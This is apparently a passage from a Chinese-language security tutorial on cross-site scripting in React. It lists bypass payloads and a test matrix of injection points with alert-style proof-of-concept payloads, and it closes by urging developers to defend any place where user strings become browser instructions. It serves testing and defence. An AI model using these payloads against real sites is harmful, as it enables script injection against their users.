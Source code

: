   
高阶绕过技术：  

```
// JSX 注入
<img src=&#34;x&#34; onError={alert(1)} />


// Unicode 绕过
\u003cimg src=x onerror=alert(1)\u003e


// 模板字符串
${alert(1)}
```

#### 上下文测试矩阵  
<table><tbody><tr><td data-colwidth="375" width="375" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">注入点</span></p></td><td data-colwidth="375" width="375" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf=""> 测试Payload</span></p></td></tr><tr><td data-colwidth="375" width="375" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">dangerouslySetInnerHTML</span></p></td><td data-colwidth="375" width="375" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">&lt;img src=x onerror=alert(1)&gt;</span></p></td></tr><tr><td data-colwidth="375" width="375" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">href 属性 </span></p></td><td data-colwidth="375" width="375" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">javascript:alert(document.domain)</span></p></td></tr><tr><td data-colwidth="375" width="375" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">style 属性</span></p></td><td data-colwidth="375" width="375" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">{backgroundImage: &#39;url(&#34;javascript:alert(1)&#34;)&#39;} </span></p></td></tr><tr><td data-colwidth="375" width="375" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">JSX 表达式</span></p></td><td data-colwidth="375" width="375" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">{top: window}</span></p></td></tr><tr><td data-colwidth="375" width="375" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">动态组件</span></p></td><td data-colwidth="375" width="375" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">React.createElement(userInput) </span></p></td></tr><tr><td data-colwidth="375" width="375" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">JSON 注入</span></p></td><td data-colwidth="375" width="375" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">&#34;&lt;/script&gt;&lt;script&gt;alert(1)&lt;/script&gt;&#34; </span></p></td></tr></tbody></table>####   
  
总结  
- React 本身已非常安全，真正的漏洞往往来自“绕过 React”的写法。  
  
- 永远记得：任何把“用户字符串”变成“浏览器指令”的动作，都必须加一道防线  
  
